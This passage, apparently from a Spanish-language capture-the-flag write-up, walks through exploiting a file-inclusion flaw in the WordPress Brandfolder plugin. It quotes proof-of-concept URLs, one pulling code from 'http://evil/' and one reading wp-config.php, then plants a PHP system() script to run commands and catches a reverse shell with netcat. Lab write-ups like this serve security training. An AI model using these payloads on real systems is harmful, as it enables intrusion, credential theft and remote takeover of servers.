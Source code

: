 ```null
searchsploit brandfolder
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                 |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
WordPress Plugin Brandfolder 3.0 - Local/Remote File Inclusion                                                                                                                 | php/webapps/39591.txt
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

En el exploit explican en que consiste

```null
$_REQUEST is based on the user input, so as you can guess,
an attacker can depending on the context, host on a malicious server
a file called wp-load.php, and disable its execution using an htaccess, or
abuse the null byte character ( %00, %2500 url-encoded)

II-Proof of concept
http://localhost/wp/wp-content/plugins/brandfolder/callback.php?wp_abspath=LFI/RFI
http://localhost/wp/wp-content/plugins/brandfolder/callback.php?wp_abspath=../../../wp-config.php%00
http://localhost/wp/wp-content/plugins/brandfolder/callback.php?wp_abspath=http://evil/
```

En el directorio /uploads, creo un script que se llame wp-load.php y lo llamo abusando del LFI, pudiendo así ejecutar comandos

```null
www-data@moderators:/var/www/html/logs/uploads$ cat wp-load.php 
<?php
  system("whoami");
?>
www-data@moderators:/var/www/html/logs/uploads$ curl -s -X GET "http://localhost:8080/wp-content/plugins/brandfolder/callback.php?wp_abspath=/var/www/html/logs/uploads/"
lexi
```

Me envío una reverse shell y gano acceso como este usuario

```null
nc -nlvp 443
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.11.173.
Ncat: Connection from 10.10.11.173:40634.
bash: cannot set terminal process group (832): Inappropriate ioctl for device
bash: no job control in this shell
lexi@moderators:/opt/site.new/wp-content/plugins/brandfolder$ script /dev/null -c bash
<ntent/plugins/brandfolder$ script /dev/null -c bash          
Script started, file is /dev/null
lexi@moderators:/opt/site.new/wp-content/plugins/brandfolder$ ^Z
zsh: suspended  nc -nlvp 443
❯ stty raw -echo; fg
[1]  + continued  nc -nlvp 443
                              reset xterm
<ew/wp-content/plugins/brandfolder$ export TERM=xterm                        
lexi@moderators:/opt/site.new/wp-content/plugins/brandfolder$ export SHELL=bash
ns 209oderators:/opt/site.new/wp-content/plugins/brandfolder$ stty rows 56 colum 
```